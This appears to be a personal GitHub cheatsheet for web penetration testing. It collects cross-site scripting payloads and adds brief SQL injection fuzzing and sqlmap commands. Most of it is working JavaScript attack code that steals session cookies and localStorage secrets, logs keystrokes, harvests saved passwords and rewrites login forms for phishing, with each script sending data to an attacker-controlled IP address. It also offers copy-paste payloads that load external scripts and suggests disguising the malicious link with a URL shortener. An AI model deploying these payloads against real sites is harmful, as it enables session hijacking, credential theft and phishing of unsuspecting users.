# Welcome to Useful-Shit/Web!

Hi! This would probably be better as a gist, honestly. But it's my repo and I'll do what I want!
This is basically just a web testing cheatsheet for me but if you find my stuff useful, a star would be appreciated 😁

## Quick Jump:
- [XSS](#xss-copypastas)
- 

# Cross-Site Scripting (XSS)

XSS Payloads for fun and profit. Different types of XSS:

 - **Reflected Server XSS:** often found in locations where user input is sent via GET parameters.
	 - `search.php?s=%3Cscript%3Ealert%280%29%3C%2Fscript%3E`
 - **Stored Server XSS:** Literally stored on the server. Think user comments or blog/page posts.
	 - `<script>alert(0)</script>`
 - **Reflected Client XSS:** Same kind of idea as the Server XSS. Stuff some junk into a parameter and see what sticks.
	 - `<img src='x' onerror='alert(1)'>`
 - **Stored Client XSS:** Things like form elements can be taken advantage of to store XSS, for example a survey page for Jarrod has the URL `http://survey.tld/?name=Jarrod` and after filling the survey we end up with a new parameter `http://survey.tld/?name=Jarrod&result`. The answers to the survey could be prone to injection, and should be tested.

## XSS - Exploitation

### Stealing session cookies

Leverage XSS to fetch the payload from a web server you control:

`xss.js`

```javascript
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
```

This payload may not work if `HttpOnly` is specified in the server headers.

### Stealing local secrets

Local storage may include secrets like API keys or personal user info. There are two types: `sessionStorage` and `localStorage` - session storage only holds data for the session, whereas `localStorage` is the local cache and won't be flushed until explicitly done so.

`local.js`

```javascript
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)
```

### Keylogging

It's keylogging, but through XSS. Let's see what users are typing:

`klog.js`

```javascript
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

### Stealing saved passwords

`stealer.js`

```javascript
let body = document.getElementsByTagName("body")[0]

  var u = document.createElement("input");
  u.type = "text";
  u.style.position = "fixed";
  //u.style.opacity = "0";

  var p = document.createElement("input");
  p.type = "password";
  p.style.position = "fixed";
  //p.style.opacity = "0";

  body.append(u)
  body.append(p)

  setTimeout(function(){ 
          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
   }, 5000);
```

### Phishing users

The concept is simple: Use javascript to *fetch* the login page, and change the action (submit) on the form to point to our listening server hosting the XSS. Take the above **Reflected Server XSS** for example. In the `search.php?s=` parameter, we could use `<script src="10.10.13.37/xss.js"></script>`, but URLEncode it first: `search.php?s=%3Cscript%20src%3D%2210%2E10%2E13%2E37%2Fxss%2Ejs%22%3E%3C%2Fscript%3E`. Now we have a deadly link to send to users, or take it a step further and use a URL shortener 😉

`phish.js`

```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

## XSS Copypastas

 - `<script>alert(0)</script>`

 - `<img src='x' onerror='alert(1)'>`

 - `<img src='x' onerror='alert(document.location)'>`

 - External payload: `<script src="http://10.10.13.37/xss.js"></script>`

 - Insert script from external: `<img src='x' onerror='const script = document.createElement("script"); script.src="http://10.10.13.37/xss-login.js";document.head.append(script);'>`


## SQL Injection (SQLi)

### Fuzzing GET parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"`

### Fuzzing POST parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"`

### sqlmap GET parameter
`sqlmap -u "$URL/index.php?id=1"`

### sqlmap POST parameter
Copy POST request from Burp Suite into `post.req` file
`sqlmap -r post.req -p parameter`
